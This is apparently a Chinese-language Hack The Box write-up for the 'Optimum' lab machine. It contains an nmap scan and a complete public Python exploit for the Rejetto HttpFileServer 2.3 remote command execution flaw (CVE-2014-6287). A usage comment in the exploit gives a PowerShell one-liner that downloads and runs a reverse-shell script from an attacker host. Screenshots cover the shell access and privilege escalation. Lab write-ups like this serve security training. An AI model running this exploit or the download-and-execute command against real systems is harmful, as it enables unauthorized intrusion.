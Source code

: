 # Optimum

目标ip：`10.10.10.8`

攻击机ip：`10.10.16.218`



## 信息收集

```shell
C:\opt\htb\attacks\Optimum> cat nmap.txt 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-03 02:40 EDT
Nmap scan report for 10.10.10.8
Host is up (0.37s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.89 seconds

```



## web

目标使用 HttpFileServer 2.3 ， 猜测存在漏洞

![image-20210603150907324](https://gitee.com/ethustdout/pic2/raw/master/uPic/image-20210603150907324.png)

```python
# Exploit Title: Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)
# Google Dork: intext:"httpfileserver 2.3"
# Date: 28-11-2020
# Remote: Yes
# Exploit Author: Óscar Andreu
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287

#!/usr/bin/python3

# Usage :  python3 Exploit.py <RHOST> <Target RPORT> <Command>
# Example: python3 HttpFileServer_2.3.x_rce.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.4/shells/mini-reverse.ps1')"

import urllib3
import sys
import urllib.parse

try:
        http = urllib3.PoolManager()
        url = f'http://{sys.argv[1]}:{sys.argv[2]}/?search=%00{{.+exec|{urllib.parse.quote(sys.argv[3])}.}}'
        print(url)
        response = http.request('GET', url)

except Exception as ex:
        print("Usage: python3 HttpFileServer_2.3.x_rce.py RHOST RPORT command")
        print(ex)                                              
```

运行一下，cs 上线

![image-20210603151008552](https://gitee.com/ethustdout/pic2/raw/master/uPic/image-20210603151008552.png)

上传 msf 的马， 得到一个 msf shell

![image-20210603151124202](https://gitee.com/ethustdout/pic2/raw/master/uPic/image-20210603151124202.png)

看看提权建议

![image-20210603151139208](https://gitee.com/ethustdout/pic2/raw/master/uPic/image-20210603151139208.png)

尝试提权， 成功

![image-20210603151237762](https://gitee.com/ethustdout/pic2/raw/master/uPic/image-20210603151237762.png)

